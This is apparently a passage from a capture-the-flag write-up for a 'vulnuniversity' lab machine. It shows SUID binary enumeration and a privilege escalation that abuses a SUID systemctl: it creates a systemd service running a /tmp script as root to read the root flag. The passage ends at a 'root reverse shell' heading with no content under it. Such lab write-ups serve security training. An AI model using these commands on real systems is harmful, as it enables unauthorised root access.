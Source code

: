```
find / -type f -perm -4000
```

```
/bin/passwd
/bin/su
/bin/ntfs-3g
/bin/mount
/bin/ping6
/bin/umount
/bin/systemctl
/bin/ping
/bin/fusermount
...
```

##### Root flag:

```bash
www-data@vulnuniversity:/$ cat /root/root.txt
cat: /root/root.txt: Permission denied
```

Using systemctl to create a service to run as root:

```bash
cd /tmp
touch getrootflag.sh
chmod u+x getrootflag.sh
echo "cat /root/root.txt > /tmp/key.txt" >> /tmp/getrootflag.sh
```

Systemctl service:
```
echo "[Unit]
Description=Example systemd service.

[Service]
Type=simple
ExecStart=/bin/bash /tmp/getrootflag.sh

[Install]
WantedBy=multi-user.target" > /tmp/getrootflag.service
```

systemctl enable /tmp/getrootflag.service
systemctl start getrootflag

```
www-data@vulnuniversity:/tmp$ cat key.txt
cat key.txt
a58ff8579f0a9270368d33a9966c7fd5
```

##### root reverse shell
